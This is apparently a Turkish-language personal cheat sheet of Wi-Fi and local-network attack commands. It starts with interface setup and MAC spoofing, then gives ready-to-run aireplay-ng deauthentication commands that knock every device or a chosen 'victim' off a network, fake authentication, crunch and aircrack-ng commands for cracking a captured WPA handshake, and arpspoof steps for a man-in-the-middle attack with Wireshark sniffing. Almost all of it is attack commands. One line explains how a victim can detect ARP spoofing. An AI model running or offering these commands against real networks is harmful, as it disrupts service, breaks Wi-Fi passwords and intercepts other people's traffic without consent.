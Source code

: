 kablasoz ağ arayüzünü kapatır
```
ifconfig wlan0 down
```
kablasoz ağ arayüzünü açar
```
ifconfig wlan0 up
```
mac değişimi (ifconfig ile)
```
ifconfig wlan0 hw ether yeni-mac-adresi
```
random mac adresi değiştirme (maccahnger kurulu değil ise kurun, ağı kullanırken mac adresi değişmez, öncelikle ağdan kopun, bu örnekte wlan0 yani kablosuz ağ için mac değiştirme yapıyoruz)
```
macchanger --random wlan0
```
ağ ayarlarına reset atar (değişen mac eski haline döner)
```
service NetworkManager restart
```


ifconfig e göre farkı wireless ile ilgili bilgi verir 
ve bu bilgiyi daha ayrıntılı verir
```
iwconfig
```

monitor mod nedir ?
```
bağlı olmadığımız ağlar hakkında bilgi alabilmemizi sağlar
```

monitor moda geçmek
```
airmon-ng start wlan0   (wlan0 ağ ismi, sizde farklı ise sizdekini yazaın)
```

managed moda geçmek
```
airmon-ng stop wlan0mon   (ağ adı değişmedi ise mon ekine gerek yok)
```


ağ taraması yapmak
```
airodump-ng wlan0mon (wlan0mon değişebilir ağ adınız ne ise onu kullanın)
```


airodump-ng ile gelen datayı anlamak
```
BSSID nedir: modemin mac adresidir
PWR nedir: negatif sayı büyüdükçe o ağa daha yakınsın
Beacons: 
Data:
CH: modemin hangi kanalda kullanıldığını gösterir
ENC: şifreleme bilgisi
```


seçilmiş ağa ayrıntılı tarama yapmak
```
örenk channel:8
örnek mac: 00:00:00:11:00:00:00
airodump-ng --channel 8 --bssid 00:00:00:11:00:00:00 --write airodumptest wlan0mon

"--write dosyaadi" bu paramtereyi işlem sonucunu kaydetmek
istediğimizde kullanırız. kullanımı opsiyoneldir
```


yetkisizlendirme saldırısı
```
bütün cihazları ağdan düşür;
örnek paket sayısı: 10000
örnek mac: 00:00:00:11:00:00:00
aireplay-ng --deauth 10000 -a 00:00:00:11:00:00:00 wlan0mon

belli bir cihazı ağdan düşür;
örnek paket sayısı: 10000
örnek kurban mac: 00:00:A9:11:9B:00:00
aireplay-ng --deauth 10000 -a 00:00:00:11:00:00:00 -c 00:00:A9:11:9B:00:00 wlan0mon

```


fake wireless bağlantısı
```6
paket sayısı :0
örnek modem mac: 00:00:00:11:00:00:00
örnek sahte bağlantı cihazı mac adresi: 00:C0:CA:92:8F:6E
örnek modem mac
aireplay-ng --fakeauth 0 -a 00:00:00:11:00:00:00 -h 00:C0:CA:92:8F:6E wlan0mon
```


crunch ile 8,9 hane arası  wordlist
```
crunch 8 9 gzuor672 -o testWordList.txt
```


aircrack ile word list kullanımı
```
aircrack-ng handshake-cap-dosyası -w wordlist-dosyası
```


bağlı olduğumuz ağdaki cihazları bulma
```
bağlanma yöntemi örnek: eth0
örnek ip: 10.0.2.4
örnek broadcast: 24
örnek paket sayısı: 10
netdiscover -i eth0 -r 10.0.2.4/24 -c 10
```


bağlı olduğumuz ağdaki cihazları bulma (nmap ile)
```
nmap 10.0.2.1/24
```

ortadaki adam saldırısı
```
başlamadan önce:

echo 1 > /proc/sys/net/ipv4/ip_forward
komutu ile arp servisini başlatmak gerekir. default olarak
bu dosya içinde 0 yazar. bu komut veya bir editör ile 
bunu 1 yapmak gerekir. linux her açıldığında 1 yapılması 
gerekir.

arp protokolü ile kendimizi modem olarak göstermek

arpspoof -i eth0 -t kurban-ip modem-ip
veya
arpspoof -i eth0 -t modem-ip kurban-ip

bu komuttan sonra hedef cihazın trafiği bizim üzerimizden geçecek
ve biz modem olarak algılanacağız
windowsta arp -a komuutunu çalıştır. 
modemin mac adresi iki ayrı ip tarafından kullanılıyor ise 
saldırı altındasınız demektir.

bundan sonra wireshrak ile dinleme yapmaya başlayabiliriz
```
